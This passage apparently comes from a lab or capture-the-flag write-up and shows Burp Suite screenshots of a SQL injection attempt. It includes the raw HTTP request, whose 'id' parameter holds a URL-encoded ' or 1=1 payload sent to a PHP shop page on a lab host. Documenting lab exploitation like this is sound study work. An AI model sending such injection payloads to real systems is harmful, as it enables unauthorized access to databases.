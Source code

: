 ![Burpsuite showing the raw sql injection payload](Assets/burp_raw_sql_payload.jpg)

```
GET /shop/index.php?page=product&id=%0d%0a%27%20%6f%72%20%31%3d%31%3b%0d%0a%2d%2d%32 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![Burpsuite showing the encoded sql injection payload](Assets/burp_encoded_sqli.jpg)
